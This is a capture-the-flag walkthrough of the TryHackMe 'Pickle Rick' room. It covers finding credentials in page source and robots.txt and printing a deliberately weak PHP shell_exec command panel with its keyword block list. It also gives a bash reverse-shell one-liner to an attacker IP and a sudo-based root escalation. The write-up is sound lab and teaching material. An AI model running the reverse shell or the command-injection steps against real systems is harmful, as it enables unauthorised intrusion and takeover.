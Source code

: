 Link : https://tryhackme.com/r/room/picklerick

## 1. Discovery Phase

### Finding the Username in Webpage Source

- We found port ```22 , 80 ``` open

- Upon inspecting the source code of the target webpage, we located the following username:
  ```
  R1ckRul3s
  ```

![Username](./Image/1.png)

### Directory Busting

- We found multiple interresting file with ```dirbuster```

![Username](./Image/2.png)

### Analyzing `/robots.txt`
- We accessed the `/robots.txt` file on the server and found the following clue:
  ```
  Wubbalubbadubdub
  ```

### Using Discovered Credentials for Login
- We attempted to use the username and the string from `/robots.txt` as credentials for the login page at `/login.php`.
- **Login credentials**:  
  ```
  R1ckRul3s:Wubbalubbadubdub
  ```
- The login attempt was successful.

![Username](./Image/3.png)

## 2. Attempting SSH Login
- With the same credentials, we can attempt SSH access to the server.  
  **Note**: Public key authentication may be required to gain SSH access.

![Username](./Image/4.png)

## 3. Post-login Comment Discovery
- After logging in through `/login.php`, we examined the page and found the following base64-encoded string hidden in a comment:
  ```
  Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==
  ```

![Username](./Image/5.png)

- Decoding this string may reveal further clues.

## 4. Ingredient Files Discovery

### First Ingredient
- The first ingredient was found at the following path:
  ```
  /var/www/html/Sup3rS3cretPickl3Ingred.txt
  ```

![Username](./Image/6.png)

- We found that we could only read file with the ```less``` commands as the other commands to read files seems blocked

![Username](./Image/7.png)

**Sup3rS3cretPickl3Ingred.txt**: mr. meeseek hair

### Second Ingredient
- The second ingredient was located in Rick's home directory:
  ```
  /home/rick/second ingredients
  ```

![Username](./Image/8.png)

## 5. Bypassing Command Restrictions in the Web Interface

### PHP Script for Command Execution
- The web application includes a PHP script that allows command execution, but it restricts certain commands such as `cat`, `head`, `tail`, etc.

- The script is as follows:
  ```php
  <?php
    function contains($str, array $arr) {
        foreach($arr as $a) {
            if (stripos($str, $a) !== false) return true;
        }
        return false;
    }

    $cmds = array("cat", "head", "more", "tail", "nano", "vim", "vi");
    if (isset($_POST["command"])) {
        if (contains($_POST["command"], $cmds)) {
            echo "</br><p><u>Command disabled</u> to make it hard for future <b>PICKLEEEE RICCCKKKK</b>.</p><img src='assets/fail.gif'>";
        } else {
            $output = shell_exec($_POST["command"]);
            echo "</br><pre>$output</pre>";
        }
    }
  ?>
  ```

![Username](./Image/9.png)

- Although file viewing commands are disabled, we can leverage this script to execute other shell commands and obtain more information from the system.

## 6. Gaining a Reverse Shell
- By entering the following command in the web interface's command input field, we can gain a reverse shell:
  ```bash
  /bin/bash -c 'bash -i >& /dev/tcp/10.2.5.7/1234 0>&1'
  ```

![Username](./Image/10.png)

## 7. Privilege Escalation (PrivEsc)

### Enumerating Sudo Permissions
- After establishing a reverse shell, we enumerated available sudo privileges using:
  ```bash
  sudo -l
  ```
- The output revealed that the `www-data` user has the ability to execute any command without a password:
  ```bash
  Matching Defaults entries for www-data on ip-10-10-103-59:
      env_reset, mail_badpass,
      secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

  User www-data may run the following commands on ip-10-10-103-59:
      (ALL) NOPASSWD: ALL
  ```

![Username](./Image/11.png)

### Gaining Root Access
- Knowing this, we simply escalated our privileges by executing:
  ```bash
  sudo su
  ```

- We successfully elevated our privileges to `root`, gaining full control of the system.

![Username](./Image/12.png)

- With root access, we were able to read all necessary flags and complete the objective of rooting the box.

---

